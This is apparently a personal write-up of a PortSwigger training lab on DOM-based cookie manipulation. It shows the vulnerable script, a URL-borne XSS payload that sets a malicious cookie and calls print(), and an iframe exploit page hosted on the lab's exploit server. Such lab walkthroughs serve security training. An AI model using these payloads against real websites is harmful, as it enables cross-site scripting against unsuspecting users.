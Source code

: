 # DOM-based cookie manipulation | Jan 14, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation), you'll learn: DOM-based cookie manipulation! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause [XSS](https://portswigger.net/web-security/cross-site-scripting) on a different page and call the `print()` function. You will need to use the exploit server to direct the victim to the correct pages.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114183148.png)

In the home page, we can view other products:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114183313.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114183358.png)

**View source page:**
```html
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

In here, **we see a `document.cookie` sink (Dangerous function).** And **the source (attacker controllable input) is `window.location`.**

That being said, **it'll set a new cookie called `lastViewdProduct`, with the value of our `window.location` property.**

Let's refresh the page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114183817.png)

```html
<a href='https://0af2006504761747c0200a5f001a0028.web-security-academy.net/product?productId=1'>Last viewed product</a><p>|</p>
```

When we refreshed the page, it'll create a new `<a>` element, with attribute `href`, and it's value is our `window.location` property.

That being said, we can try to exploit XSS!

**Payload:**
```html
/product?productId=1&payload='><img src=errorpls onerror="print()">
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114184337.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114184354.png)

Our evil cookie has been set!

Let's refresh the page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114184423.png)

Nice!

**Now, we can create a HTML payload to trigger the XSS payload to the victim:**
```html
<html>
    <head>
        <title>DOM-based cookie manipulation</title>
    </head>
    <body>
        <iframe src="https://0af2006504761747c0200a5f001a0028.web-security-academy.net/product?productId=1&payload=%27%3E%3Cimg%20src%3Derrorpls%20onerror%3D%22print%28%29%22%3E" onload="if(!window.triggerXSSPayload)this.src='https://0af2006504761747c0200a5f001a0028.web-security-academy.net';window.triggerXSSPayload=1;"></iframe>
    </body>
</html>
```

This payload will create an `<iframe>` element that pointing to our set cookie payload.

Then, when it's loaded, we checks the XSS payload triggered or not.

If not, then set the `<iframe>` attribute `src` property to the vulnerable website's home page. This will trigger our cookie's XSS payload.

**Then host it on the exploit server, and deliver it to victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114190003.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114190009.png)

# What we've learned:

1. DOM-based cookie manipulation